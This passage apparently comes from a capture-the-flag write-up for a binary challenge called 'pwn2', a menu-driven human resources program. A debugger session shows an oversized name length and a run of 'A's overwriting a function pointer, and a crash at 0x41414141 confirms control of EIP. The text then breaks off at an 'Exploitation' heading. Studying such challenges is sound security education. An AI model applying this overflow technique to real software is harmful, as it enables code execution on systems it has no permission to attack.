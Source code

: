 ```
Enter your choice: 2

Editting a person...
Enter person's index (0-based): 0
Enter new name length: 1337
Enter the new name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Done.

Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 3

Printing a person...
Enter person's index (0-based): 1

Thread 1 "pwn2" received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Great! We control EIP, now we only have to write an exploit to get code
execution on the server.

## Exploitation

The code that calls the overwritten function pointer is this:

![printPersonWrapper](img3.png)
